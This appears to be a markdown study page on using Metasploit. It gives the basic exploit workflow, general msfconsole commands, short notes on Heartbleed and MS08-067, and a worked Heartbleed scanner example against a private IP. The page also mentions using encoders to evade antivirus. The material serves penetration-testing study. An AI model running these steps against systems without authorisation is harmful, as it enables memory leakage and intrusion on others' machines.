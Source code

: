# [Metasploit](https://www.metasploit.com/)

> Metasploit is an exploit development and execution tool. It can also be used to carry out penetration testing tasks such as port scans, service identification and post exploitation tasks.

* Basic Steps
* General commands
* Exploits
* Payloads (See [Payload Types]())

## Basic Steps

1. Pick an *exploit*/*module* to use.
2. Set your options for the module (`set`).
   * Set the victim hosts and ports.
   * Set your local hosts and ports.
   * Possibly set system versions, user accounts, and other information.
   * Issue the `show options` command to see what options are required or needed.
3. Configuring *payloads*.
   * Payloads are what should happen after the vulnerability is exploited.
   * Issue `show payloads` and then select one using `set payloads`.
4. Set *encoders*.
   * Encoders are the basic way to obfuscate the attack in Metasploit. Sadly, this still often triggers on AV.
   * Issue `show encoders` and then select one using `set encoders`.
5. Set additional options.
6. Run the selected and configured attack issuing the `exploit` command. 
   
> [Metasploit Cheat Sheet](https://cheatography.com/huntereight/cheat-sheets/metasploit-4-5-0-dev-15713/)

## General commands

```
msfconsole
help
show [something] // (i.e, show payloads, show options)
use [something]
set [option] [value]
exploit
```

## Exploits

Download exploits from Rapid7 based on gathering information on target's services.

* **Heartbleed**: Get data from the heap memory of a vulnerable machine (accepting and processing new SSL connections). Data depends largely on the timing of when the exploit is performed. Not getting something highly valuable does not equate to a failed exploit

* [MS08-067](https://docs.microsoft.com/en-us/security-updates/SecurityBulletins/2008/ms08-067): The vulnerability could allow remote code execution if an affected system received a specially crafted RPC request.

### Example: Heartbleed

```
sudo msfdb start
msfconsole
search heartbleed
use auxiliary/scanner/ssl/openssl_heartbleed
# list module options
show options
# set options
set VERBOSE true
set RHOSTS 10.0.0.101
run
```

## Payloads

Some exploits allow for injecting payloads, expanding our attack vectors, i.e. triggering reverse connections.
